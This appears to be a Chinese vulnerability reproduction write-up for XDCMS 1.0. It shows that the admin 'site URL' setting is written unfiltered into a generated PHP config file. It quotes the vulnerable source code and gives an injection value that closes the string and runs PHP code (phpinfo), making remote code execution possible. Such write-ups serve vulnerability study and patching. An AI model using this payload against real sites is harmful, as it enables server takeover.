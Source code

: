 XDCMS 1.0 后台配置文件getshell
==============================

一、漏洞简介
------------

二、漏洞影响
------------

XDCMS 1.0

三、复现过程
------------

![](/Users/aresx/Documents/VulWiki/.resource/XDCMS1.0后台配置文件getshell/media/rId24.png)

刚看到这里的时候，这里的网站地址:`http://127.0.0.5`我很好奇是干嘛的，因为它现在写的是127.0.0.5而网站的ip与这个无关，去翻翻源码看看这玩意是干嘛的

    if($tag=='config'){
        //判断url是否以/结尾
        $urlnum=strlen($info['siteurl'])-1;
        if(substr($info['siteurl'],$urlnum,1)!="/"){
            showmsg(C("update_url_error"),"-1");
        }//end

        $cms=SYS_PATH.'xdcms.inc.php';   //生成xdcms配置文件
        $cmsurl="<?phpn define('CMS_URL','".$info['siteurl']."');n define('TP_FOLDER','".$info['template']."');n define('TP_CACHE',".$info['caching'].");n?>";
        creat_inc($cms,$cmsurl);

点击保存后，网站获取siteurl没有经过过滤，就拼接到cmsurl字符串变量里去了，然后根据这个cmsurl生成配置文件

配置文件：

    <?php
     define('CMS_URL','http://127.0.0.5/');
     define('TP_FOLDER','dccms');
     define('TP_CACHE',false);
    ?>

这里我们可以构造siteurl：

    hello');?><?php phpinfo();?>

点击保存后，我们去查看一下该配置文件：

    <?php
     define('CMS_URL','hello');?><?php phpinfo();?>';
     define('TP_FOLDER','dccms');
     define('TP_CACHE',false);
    ?>

这里的配置文件内容生成外部参数可控，导致了可直接getshell

访问该配置文件页面：`http://www.0-sec.org/system/xdcms.inc.php`

![](/Users/aresx/Documents/VulWiki/.resource/XDCMS1.0后台配置文件getshell/media/rId25.png)
